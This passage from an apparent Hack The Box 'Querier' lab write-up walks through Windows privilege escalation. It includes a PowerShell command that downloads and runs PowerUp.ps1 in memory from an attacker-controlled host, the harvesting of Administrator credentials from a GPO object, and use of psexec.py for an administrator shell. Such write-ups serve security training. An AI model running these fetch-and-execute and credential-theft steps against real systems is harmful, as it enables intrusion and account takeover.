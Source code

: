 We can run it from the shell with `IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.4/PowerUp.ps1')`. This will load it to memory on the machine. We can then run `Invoke-AllChecks` to kick off all system checks the script contains. This will tkae a few minutes to run while it searches for itmes that it finds interesting.

Once it returns, we see that it found a few exploitable services and hijackable DLL paths. HOwever, the easy win is the GPO object it found, containing credentials for the `Administrator` account.

![](/assets/htb-querier/gpo_creds.png)

### PSEXEC for root shell

Now that we have the creds, we can use `psexec.py administrator@10.10.10.125` to kick off a shell via the SMB shares.

![](/assets/htb-querier/root_shell.png)

As always, the root flag is located at `C:\users\administrator\desktop\root.txt`

![](/assets/htb-querier/root_proof.png)